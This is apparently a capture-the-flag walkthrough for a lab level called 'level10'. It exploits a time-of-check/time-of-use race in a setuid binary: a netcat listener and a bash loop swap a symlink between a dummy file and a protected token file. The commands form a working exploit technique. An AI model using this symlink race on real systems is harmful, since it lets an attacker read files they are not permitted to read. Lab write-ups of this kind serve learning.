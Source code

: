 ## level10

Race conditions

Open another terminal and run the server on 6969 port
```bash
# Open second ssh-session 
ssh level10@192.168.64.2 -p 4242

# Run server on 6969 port in one shell
nc -kl 6969
```

Go to the /var/crash directory:
```bash
cd /var/crash
```

Create bash script with that code:
```bash
#!/bin/bash
touch /tmp/fake;
while true; do ln -fs ~/token /tmp/link; ln -fs /tmp/fake /tmp/link; done

# Give exec access bit and run in backgroud
chmod +x exp.sh
./exp.sh &
```

Run level10 and get the flag
```bash
./level10 /tmp/link 127.0.0.1
```